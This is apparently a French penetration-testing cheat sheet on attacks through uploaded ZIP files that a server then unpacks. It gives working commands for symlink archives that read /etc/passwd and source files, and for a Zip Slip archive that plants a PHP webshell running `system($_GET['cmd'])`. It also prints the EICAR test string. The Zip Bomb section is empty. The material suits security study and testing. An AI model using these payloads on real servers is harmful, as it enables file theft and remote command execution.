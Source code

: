 # ZIP

**Facteur de risque** : Information Disclosure, RCE via LFI, DoS

**Extension** : `.zip`, `.zipx`

**Type MIME** : application/zip

**Description** : Le **ZIP** est un format de fichier permettant l'archivage *(utilisation d'un seul fichier pour stocker plusieurs fichiers)* et la compression de données *(diminution de l'espace occupé sur le support numérique)* sans perte de qualité.

Si un fichier ZIP téléversé est **décompressé** ensuite par le serveur, plusieurs attaques peuvent être effectué.

## Sommaire

- Information Disclosure : Zip Symlink
- RCE via LFI : Décompression dans d'autres dossiers / Zip Slip
- DoS : Zip Bomb
- Test anti malware avec Eicar

## Information Disclosure : Zip Symlink

Les archives peuvent contenir des liens symboliques. Un **lien symbolique** est un fichier spécial qui le lie à un autre fichier. En uploadant un ZIP contenant un lien symbolique qui sera décompressé par la suite, on peut accéder au fichier lié. Cette exploit permet donc de **récupérer des fichiers présents** sur le serveur.

### Pré-requis

- Le fichier ZIP doit être dézippé après avoir été uploadé.

- Pourvoir accéder à ces fichiers

### Attaque

1. Il faut créer d'abord le lien symbolique sur le fichier visé (ici /etc/passwd):

```shell
ln -s /etc/passwd passwd.txt
```

2. Puis d'archiver ce fichier (ajoutez *-r* pour archiver un dossier):

```shell
zip --symlinks passwd.zip passwd.txt
```

3. Et enfin, téléverser ce fichier `.zip`. Le fichier `passwd.txt` contiendra alors les données de `/etc/passwd` du serveur web.

On peut ainsi récupérer les fichiers présents dans le serveur, comme le code source d'une page par exemple :

```shell
ln -s /var/www/html/index.php index.php
```

## LFI : Décompression dans d'autres dossiers / Zip Slip

Les cybercriminels peuvent créer des archives Zip pour lancer des attaques par traversée de chemin afin **d’écraser des fichiers** importants sur les systèmes affectés, soit en les **détruisant**, soit en les **remplaçant** par d’autres fichiers malveillant

Cette méthode permet notamment de **d'échapper** au répertoires de téléchargement sécurisé, en remontant dans les répertoires non protégés pour pouvoir déposer un webshell par exemple.

### Pré-requis

- Le fichier Zip doit être dézippé après avoir été uploadé.

- Pourvoir accéder à ces fichiers

### Attaque

1. (Facultatif) Aller dans le répétoire `/tmp` pour créer le fichier d'archive maveillant :

```shell
cd /tmp
```

2. Écrire un webshell (ici en PHP) dans un fichier (ici `webshell.php`):

```php
<?php echo "Shell";system($_GET['cmd']); ?>
```

3. Puis, selon le niveau de profondeur voulu (ici jusqu'à 10), effetuez le code suivant :

```shell
for i in `seq 1 10`;do FILE=$FILE"xxA"; cp webshell.php $FILE"cmd.php";done
```

4. Puis compresser le tout :

```shell
zip cmd.zip xx*.php
```

5. Utiliser un éditeur hexadécimal pour changer les `xxA` en `../`
6. Et enfin, téléverser ce fichier `.zip` sur l'application. Le webshell apparaitra alors dans les dossiers parents.

https://blog.silentsignal.eu/2014/01/31/file-upload-unzip/

## Eicar : Anti Malware Testfile

La plupart des logiciels antivirus détecte le fichier de test Eicar. En téléversant ce fichier dans une application, on peut vérifier la **présence** ou le **bon fonctionnement** du **logiciel antivirus**.

Le fichier de test **eicar.com** est un fichier exécutable en `.com` avec la chaîne ASCII suivante :

```
X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*
```

**eicar_com.zip** est un archive `.zip` contenant le fichier de test Eicar. Un bon logiciel d'antivirus devra détecter le "virus", même à l'intérieur d'une archive.

Et **eicarcom2.zip** est un archive `.zip` contenant l'archive du fichier de test Eicar. Ce fichier peut être uploadé pour voir si le logiciel d'antivirus vérifie les archives sur plusieurs niveaux de profondeur.

## DoS : Zip Bomb

### Pré-requis

- Le fichier Zip doit être dézippé après avoir été uploadé.

## Reference

- ZIP :
  
  - [ZIP (format de fichier) — Wikipédia](https://fr.wikipedia.org/wiki/ZIP_(format_de_fichier))
  
  - https://book.hacktricks.xyz/pentesting-web/file-upload

- LFI : ZIP Symlink
  
  - [Challenges/Web - Serveur : File upload - ZIP [Root Me : plateforme d'apprentissage dédiée au Hacking et à la Sécurité de l'Information]](https://www.root-me.org/fr/Challenges/Web-Serveur/File-upload-ZIP)

- LFI : Décompression dans d'autres dossiers / ZIP Slip
  
  - [Compressed file upload and command execution &#8211; Silent Signal Techblog](https://blog.silentsignal.eu/2014/01/31/file-upload-unzip/)
  
  - [GitHub - ptoomey3/evilarc: Create tar/zip archives that can exploit directory traversal vulnerabilities](https://github.com/ptoomey3/evilarc)
  
  - [GitHub - snyk/zip-slip-vulnerability: Zip Slip Vulnerability (Arbitrary file write through archive extraction)](https://github.com/snyk/zip-slip-vulnerability)

- Eicar : Anti Malware Testfile
  
  - [Anti Malware Testfile](https://www.eicar.org/?page_id=3950)

## Todo

- Pour les autresls archives.
- Ecrire un script pour pourvour décompresser dans d'autres dossiers
  [GitHub - ptoomey3/evilarc: Create tar/zip archives that can exploit directory traversal vulnerabilities](https://github.com/ptoomey3/evilarc)
- https://www.blackhat.com/docs/us-16/materials/us-16-Marie-I-Came-to-Drop-Bombs-Auditing-The-Compression-Algorithm-Weapons-Cache.pdf
- Ajouter `. zipx`

